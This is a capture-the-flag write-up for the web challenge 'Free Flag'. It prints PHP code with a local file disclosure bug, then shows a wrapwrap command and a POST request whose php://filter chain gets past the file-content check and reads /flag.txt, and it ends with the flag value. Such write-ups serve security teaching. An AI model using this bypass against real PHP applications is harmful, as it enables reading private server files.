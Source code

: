 
## Free Flag Writeup

- **Category:** Web
- **Points:** 110
- **Difficulty:** Easy

## Challenge Description

Free Free

## Challenge Code

```php
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Free Flag</title>
</head>
<body>
    
<?php

function isRateLimited($limitTime = 1) {
    $ipAddress=$_SERVER['REMOTE_ADDR'];
    $filename = sys_get_temp_dir() . "/rate_limit_" . md5($ipAddress);
    $lastRequestTime = @file_get_contents($filename);
    
    if ($lastRequestTime !== false && (time() - $lastRequestTime) < $limitTime) {
        return true;
    }

    file_put_contents($filename, time());
    return false;
}

    if(isset($_POST['file']))
    {
        if(isRateLimited())
        {
            die("Limited 1 req per second");
        }
        $file = $_POST['file'];
        if(substr(file_get_contents($file),0,5) !== "<?php" && substr(file_get_contents($file),0,5) !== "<html") # i will let you only read my source haha
        {
            die("catched");
        }
        else
        {
            echo file_get_contents($file);
        }
    }

?>
</body>
</html>
```

## Exploitation

This challenge presents a Local File Disclosure (LFD) vulnerability, but it restricts the retrieval of files whose contents do start with `<?php` or `<html`. However, by using the wrapwarp script—a modified version of the PHP filter chain generator that supports adding a prefix and suffix—this restriction can be bypassed.

### Exploiting Local File Disclosure

By crafting a malicious payload using the wrapwarp tool, you can bypass the file content check. The following command generates the payload:

```cmd
python wrapwrap.py /flag.txt "<?php" "?>" 100
```

Once the payload is generated, it is sent via a POST request:

```http
POST / HTTP/1.1
Host: a78a1875e57a99f71f265.playat.flagyard.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 81703
Cookie: connect.sid=session;

file=php://filter/convert.base64-encode|convert.base64-encode|convert.iconv.855.UTF7|convert.base64-encode...
```

The payload allows the retrieval of the flag by embedding it between `<?php` and `?>`, effectively bypassing the file content check.

### Flag

`BHFlagY{1150be5e64bbcd3a2a2d2dfba76fe546}`
